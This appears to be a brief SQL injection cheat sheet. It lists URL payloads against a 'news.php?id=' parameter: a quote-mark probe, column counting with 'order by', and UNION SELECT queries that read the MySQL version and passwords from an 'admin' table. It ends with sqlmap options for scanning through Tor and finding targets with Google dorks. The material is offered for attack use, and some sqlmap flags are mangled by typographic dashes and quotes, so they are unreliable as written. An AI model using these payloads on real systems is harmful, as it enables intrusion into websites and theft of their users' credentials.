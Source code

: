 # SQL injection
		Detecting SQL injection vulnerabilities
- Submitting single quote '			`https://ip/news.php?id=5'`
- Submitting boolean conditions

				Finding Number of columns
-- Increment until you get a error 				
`http://ip/news.php?id=5 order by 1/*`

				Checking Union Fuction
-- union all Number of columns found
-- `http://ip/news.php?id=5 union all select 1,2,3/*`

				Check MYSQL version
-- `http://$ip/news.php?id=5 union all select 1,@@version,3/*`

				Getting Column and Table Names
-- Table Names
-- `http://ip/news.php?id=5 union all select 1,2,3 from admin/*`
-- Column Names
-- `http://ip/news.php?id=5 union all select 1,password,3 from admin/*`
				SQLMap
-- Scan through Tor
	--tor-type=SOCKS5
-- List Databases
	--dbs


-- Use google Dorking
sqlmap -g “payload” –-random-agent -f –-batch –-answer=”extending=N,follow=N,keep=N,exploit=n”n